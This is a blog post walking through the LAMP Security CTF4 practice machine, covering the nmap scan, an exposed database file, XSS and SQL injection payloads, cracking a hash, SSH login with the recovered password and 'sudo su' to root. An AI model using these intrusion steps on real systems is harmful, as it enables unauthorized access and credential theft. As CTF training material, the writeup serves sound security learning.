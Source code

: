 ```yaml
---
layout: post
title:	"Lamp Security CTF4 Writeup"
date:	2016-12-20 21:00:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hi everyone. This is my solution for LAMP security CTF4. This CTF is very easy, you can download it from [Vulnhub.com](https://vulnhub.com) or play online on [root-me.org](https://root-me.org). I did it on root-me, therefore my target was ctf07.root-me.org.

Ok let’s start, i ran nmap to see which services were open (usually I run a second scan with “-p 1-65535” parameter to identify all the ports).

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf07.root-me.org
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-07 21:19 CEST
Nmap scan report for ctf07.root-me.org (212.83.142.84)
Host is up (0.040s latency).
Not shown: 727 closed ports, 270 filtered ports
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
25/tcp open tcpwrapped
80/tcp open tcpwrapped
Device type: general purpose|WAP
Running (JUST GUESSING): OpenBSD 4.X (88%), Apple embedded (87%), FreeBSD 6.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/h:apple:airport_extreme cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: OpenBSD 4.0 (88%), Apple AirPort Extreme WAP (87%), FreeBSD 6.2-RELEASE (87%), FreeBSD 6.3-RELEASE (87%), OpenBSD 4.3 (87%)
No exact OS matches for host (test conditions non-ideal).
~~~

At this point I used netcat to verify the services on the three open ports. As excepted:

* SSH on 22
* SENDMAIL on 25
* HTTP on 80

In the meantime,  I ran DirBuster, and I noticed this file:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img1.png)

It was the database’s structure:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img2.png)

This was the website on port 80:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img3.png)

I noticed this xss on the search bar:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img4.png)

Then I found an SQL Injection on the blog:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img5.png)

At this pont I started to enumerate the select statement’s parameters by using this payloads:

* id=1 order by 1 —
* id=1 order by 2 —

They were five!

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img6.png)

I needed to know which parameters were visible:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img7.png)

And then I performed the full SQL Inection (i knew the database structure because of db.sql):

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf4-writeup/img8.png)

Ok let’s use [crackstation](https://crackstation.net/) to crack the hash. I tried to login as dstevens via ssh with the following credentials:

~~~
username dstevens
password: ilike2surf
~~~

And I succeeded:

~~~
Syrion:~ syrion$ ssh dstevens@ctf07.root-me.org
The authenticity of host ‘ctf07.root-me.org (212.83.142.84)’ can’t be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added ‘ctf07.root-me.org,212.83.142.84’ (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@ctf07.root-me.org’s password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$
~~~

I tried to run “sudo su” and yes… it worked (LOL):

~~~
[dstevens@ctf ~]$ sudo su
Password:
[root@ctf dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf dstevens]# cat /passwd
8cfd7e1715e7957021b5aa23f7839131
~~~

The privilege escalation was very very…very easy 😛

Bye bye!
